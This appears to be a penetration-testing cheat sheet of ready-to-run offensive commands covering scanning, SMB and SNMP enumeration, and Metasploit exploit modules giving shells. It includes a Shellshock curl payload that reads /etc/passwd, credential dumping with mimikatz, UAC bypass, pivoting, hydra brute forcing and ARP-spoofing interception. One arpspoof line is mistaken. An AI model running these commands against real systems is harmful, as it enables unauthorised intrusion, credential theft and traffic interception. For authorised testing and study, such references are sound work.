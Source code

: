 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN              :    Exploiting zone transfer to display all subdomains
    - dig @authorative_dns_server axfr -x subNet (192.168)    :    Reverse DNS

### 2.SMB Misconfiguration

nmap -p445 --script smb-protocols TARGET
nmap -p445 --script smb-security-mode TARGET
nmap -p445 --script smb-enum-users  TARGET

   #### 2.1 SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2 Metasploit
    exploit/windows/smb/psexec
    exploit/windows/smb/smb_relay
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
    smbclient -L IPTarget


### 3.SNMP 
#### 3.1 Detection
    nmap -sU -p 161 Target

#### 3.2 Exploitation to guess community string and Collect Info
    nmap -sU -p 161 --script=snmp-brute Target
    snmpwalk -v 1 -c public Target
    nmap -sU -p 161 --script snmp-* Target > snmp_output

### 4.Exploitation

#### 4.1 Exploit ShellShock CVE-2014-6271 (suppose it is at /browser.cgi)
    nmap -sV -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' Target
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://Target/browser.cgi

#### 4.2 Other common exploits 
    - exploit/unix/ftp/proftpd_133c_backdoor for ProFTPD ==> Result in a shell
    - exploit/multi/misc/java_rmi_server ==> Result in a shell
    - auxiliary/scanner/mysql/mysql_authbypass_hashdump ==> dump mysql password hashes
    - exploit/windows/http/badblue_passthru for badblue 2.7 ==> Result in a shell

### 3.Post Exploitation

#### 3.0 Infor Gathering
    run winenum
    run arp_scanner –r TargetNetworkSubnet
    run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

    getsystem
    post/windows/gather/win_privs        : Check if UAC enabled
    exploit/windows/local/bypassuac      : Local exploit to bypass UAC
    
    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
    incognito
    mimikatz

##### 3.1.2 Via Windows Services 
    
    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”
    
    - Using powerUp.ps1 script
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
    From MSF Console : route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
    From metrerpreter : run autoroute -s 192.168.4.0/24
    
    portfarwarding (meterpreter) ==>  portfwd add -l LocalPort -p ServicePort -r victimeIP (ex: portfwd add -l 1234 -p 80 -r 10.0.17.12)
    portfwd list    ==> This meterpreter command display current portforwarding

### 4.Bruteforcing

    hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt TARGET smb


### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
    arpspoof -i tap0 -t vic1_IP -r vic2_IP
    arpspoof -i tap0 -t vic2_IP -r vic2_IP
